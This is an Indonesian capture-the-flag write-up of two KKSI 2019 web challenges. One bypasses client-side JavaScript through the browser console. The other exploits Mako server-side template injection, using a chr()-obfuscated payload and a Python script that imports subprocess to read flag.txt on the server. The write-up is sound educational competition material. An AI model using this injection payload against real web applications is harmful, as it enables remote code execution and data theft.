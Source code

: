 ﻿## Web
### Tsunade Gambling Master
Deskripsi :

> http://202.148.2.243:20001
> You have maximum input on this challenge 3 attempts!

Solusi :
Saat dibuka situsnya, kami mencoba melihat source code dari challenge yang diberikan. Kami mencoba melihat di script Javascript yang diload.

`//It's not flag! Don't Submit it`
 `//I Warn you!`
`var kepla_flag="KKSI2019{",place_flag="Tr0ll1ng_th3_Us3r",penutup="}";function get_point_now(){var t=$("#point").text();return parseInt(t)}function generate_judi_server(t){return Math.round(Math.random()*t)}function genertae_judi_client(){return batas=generate_judi_server(100),Math.round(Math.random()*batas)}function ready_to_serve(){return place_flag.split("_")}function serve(t){var e=t;for($i=0;$i<e.length;$i++)$("#flag"+$i).html("<img src='./fl4g/"+e[$i]+".png'>")}$(document).on("click","#adu",()=>{var t=genertae_judi_client(),e=generate_judi_server(100);$("#client").text(t),$("#server").text(e);var n=get_point_now();t>e?$("#point").text(n+1):$("#point").text(n-1)}),$(document).on("click","#judii",()=>{get_point_now()>=133333333337?(console.log("I know you inspect element it!"),$("#flag").text(place_flag+" Don't Submit it Bratan! It's wrong one!")):$("#flag").text("Go Away. Hus Hus")});`

Setelah dibeautify, kami menemukan sesuatu yang menarik.
```
function ready_to_serve() {
    return place_flag.split("_")
}

function serve(t) {
    var e = t;
    for ($i = 0; $i < e.length; $i++) $("#flag" + $i).html("<img src='./fl4g/" + e[$i] + ".png'>")
}
```
Setelah kami perhatikan, ternyata fungsi diatas tidak dipanggil oleh siapapun. Namun, fungsi `serve()`meminta input dari suatu array. Sementara fungsi `ready_to_serve()` mengeluarkan suatu array yang memecah variabel `place_flag` menjadi array. Lalu, kami mencoba menggabungkan kedua fungsi tersebut dan menjalankan fungsi berikut di console dan flagnya pun keluar.
> `serve(ready_to_serve())`

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Tsunade_Gambling_Master/Tsunade%20-%201.png)
Flag : **KKSI2019{JScan_3asY_Troll1nG}**

### Mako Onii-Chan
Deskripsi :

> http://202.148.2.243:21201
> 
>[Main.py](https://drive.google.com/file/d/1HF3SKw4FrNcibCyUrQeaw84QO6XfPuGG/view)

Solusi :
Diberikan suatu file `main.py`, setelah kami analisa ternyata ini adalah file flask, maka kami mencoba melakukan SSTI. Setelah mencoba beberapa jenis SSTI, ditemukan payload yang bisa berjalan yaitu `${1+1}`. 
Dengan bentuk payloadnya, kami mengetahui bahwa ini dibangun dengan framework Mako. Setelah mencari-cari jenis payload yang bisa digunakan, kami menyadari bahwa kita bisa melakukan import dengan mengganti parameter import menjadi ascii per karakternya dan di `chr()`.

Kami mencoba melakukan import subprocess untuk melakukan RCE dan ternyata bisa, dan akhirnya didapatkan flagnya.
```
import base64
import requests as r

exploit = '${__import__(chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)).getoutput(chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))}'

url = "http://202.148.2.243:21201/intro-gan"
name = exploit.encode('utf-32')
grup = base64.b64encode(name)
data = {'name': grup}
print(r.post(url, data=data).text)
```

Flag : **KKSI2019{64_32_16_8_4_2_0}**
